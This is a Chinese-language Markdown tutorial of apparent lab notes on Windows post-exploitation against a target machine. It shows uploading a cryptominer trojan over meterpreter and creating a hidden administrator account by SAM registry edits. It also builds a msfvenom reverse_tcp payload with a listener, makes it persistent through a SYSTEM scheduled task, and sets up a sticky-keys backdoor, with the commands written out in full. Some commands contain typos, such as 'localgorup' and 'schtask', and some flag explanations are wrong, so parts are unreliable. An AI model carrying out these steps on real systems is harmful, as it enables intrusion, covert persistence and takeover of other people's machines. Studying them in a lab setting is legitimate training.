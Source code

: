 # 后渗透阶段

![image-20230810224311882](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308102243970.png)

![](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308102244156.png)

> 后渗透阶段

 拿到shell后：

如果有乱码，输入

```
chcp 65001
```

解决乱码问题

![image-20230810105006658](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101050850.png)

## 向靶机上传文件

### 上传木马

将`wkbd.zip`传入靶机：

```
upload 文件路径(拖入) 目标路径
```

![image-20230810105247821](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101052840.png)

![image-20230808150858571](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101055549.png)

上传成功

![](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054991.png)

运行后CPU占用率很高。

查看木马信息

在`config.json`文件中找到矿池域名在微步在线搜索：

![image-20230810112217836](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101122907.png)



## 从靶机下载文件

```
download 靶机文件位置 本机目标位置
```

以靶机内的100.txt文件为例

![image-20230808151237511](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054984.png)

![image-20230808151335708](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054988.png)

成功下载

## 创建有管理员权限的隐藏账户

### 新建管理员账户

在靶机：

普通用户：

```
net user 账户名称 /add
```

```
net user yu$ 123456. /add
```

赋予账户管理员权限

```
net localgorup Administrator yu$ /add
```

查看账户

```
net user
```

通过注册表和控制面板仍可看见账户



### 隐藏新建账户

打开注册表

![image-20230810103157443](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054786.png)

找到`HEKY_LOCAL_MACHINE`  ->  `SAM`  ->  `Domains`  -> `Account`  下的`Users`和`Names`

将Administrator对应的`Users`的二进制`F值`复制到要隐藏的用户

![image-20230810103658656](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054702.png)

复制F值：

![image-20230810103754170](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054879.png)

复制给aa$账户：

![image-20230810103843479](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054531.png)

导出

![image-20230810104020639](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054542.png)

然后把这两个文件夹删除。

![image-20230810104141373](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101054513.png)

然后在命令行中再删除

```
net user 账户名 /del
```

最后双击之前保存的注册表，再导入。

#### 小结

实现了在控制面板删除用户，但是在控制面板仍能看到。



## 权限维持

### 创建监听模块及计划任务

> 让木马持续化运行(如每分钟自动运行一次)
>
> 此部分使用msfvenom生产的木马没有传入靶机。

#### 创建监听模块

使用msfvenom的`windows/meterpreter/reverse_tcp`模块

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=本机地址 lport=本机端口 -f exe -o yu.exe
```

![image-20230810111102732](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101111776.png)

进入到msfconsole里进行监听

```
search handler
use exploit/multi/handler
```

使用tcp反弹shell的payload

```
set payload windows/meterpreter/reverse_tcp
```

设置lhost lport

```
set lhost 本机ip
set lport 本机监听端口
run
```

![image-20230810111507534](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101115575.png)

#### 创建计划任务

> 使用schtasks

在靶机内创建计划任务

```
schtask /create /tn system /sc minute /mo 1 /tr 要运行的程序路径+文件名 /ru system /f
```

tn sysrem：要创建的计划任务名称

sc minute：运行时间频次

mo 1：运行频率

tr 路径：在靶机中的路径

ru system：计划任务名称

![image-20230810123153697](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101231742.png)

查看：

![image-20230810123316903](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101233970.png)

![image-20230810123332746](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101233809.png)

创建后，结束进程后木马会重启

要关闭自动重启，需要在任务计划程序里禁用。

#### 运行msfvenom生产的木马

先上传至靶机

```
upload xxx xxx
```

![image-20230810124307947](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101243982.png)

在靶机运行`yu.exe`

![image-20230810124542826](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101245898.png)

监听到运行：

![image-20230810124602559](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101246605.png)



### 创建shift粘滞键后门(映像劫持)

> shift粘滞键后门：在未登录靶机的情况下按五下粘滞键也能启动cmd

在C:\\Winodws\Sysytem32目录下找到粘滞键`sethc.exe`启动程序

再在注册表中找到   路径见图

![image-20230810155922778](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101559845.png)

![image-20230810160102819](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101601880.png)

将启动项`sethc.exe`改为`cmd.exe`

![image-20230810160202752](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101602813.png)

按五下shift

![image-20230810160443275](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308101604402.png)
